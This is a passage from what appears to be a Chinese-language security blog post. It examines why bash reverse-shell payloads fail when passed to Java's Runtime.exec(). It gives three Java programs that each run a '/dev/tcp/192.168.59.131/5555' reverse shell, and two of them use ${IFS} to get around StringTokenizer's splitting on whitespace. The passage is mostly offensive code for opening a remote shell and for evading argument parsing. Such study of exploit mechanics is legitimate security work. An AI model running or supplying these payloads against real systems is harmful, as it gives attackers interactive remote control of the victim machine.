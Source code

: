 * Payload在Java中不生效，但是该命令在Terminal直接运行可以反弹shell

  ```java
  import java.io.IOException;
  
  public class Sample {
      public static void main(String[] args) {
          try {
              Runtime.getRuntime().exec("bash -i >& /dev/tcp/192.168.59.131/5555 0>&1");
          } catch (IOException e) {
              e.printStackTrace();
          }
      }
  }
  ```

  ![image-20210820104842610](https://monkeydatabase.github.io/img/image-20210820104842610.png)

  * 直接传入字符串时，它会通过StringTokenizer对字符串进行分割将其分割为["bash", "-i", ">&", "/dev/tcp/192.168.59.131/5555", "0>&1"]
  * StringTokenizer所使用的分隔符包括[" "空格,  "\t"制表符, "\r"回车, "\n"回车换行, "\f"换页]，所以只需要不是这几个分隔符中的元素就不会被切割字符串

* Payload在Java不生效，在Terminal执行报错ambiguous redirect

  ```java
  import java.io.IOException;
  
  public class Sample {
      public static void main(String[] args) {
          try {
              Runtime.getRuntime().exec("bash${IFS}-i${IFS}>&${IFS} /dev/tcp/192.168.59.131/5555${IFS}0>&1");
          } catch (IOException e) {
              e.printStackTrace();
          }
      }
  }
  ```

  * 在Linux系统的bash中有几个默认变量，其中`${IFS}`会被解析为空格
  * 当时此时会报错，**可能**${IFS}与文件描述符0不能连用
  
* Payload在Java中不生效，在Terminal中可以反弹shell

  ```java
  import java.io.IOException;
  
  public class Sample {
      public static void main(String[] args) {
          try {
              Runtime.getRuntime().exec("bash${IFS}-i${IFS}>&${IFS} /dev/tcp/192.168.59.131/5555 0>&1");
          } catch (IOException e) {
              e.printStackTrace();
          }
      }
  }
  ```
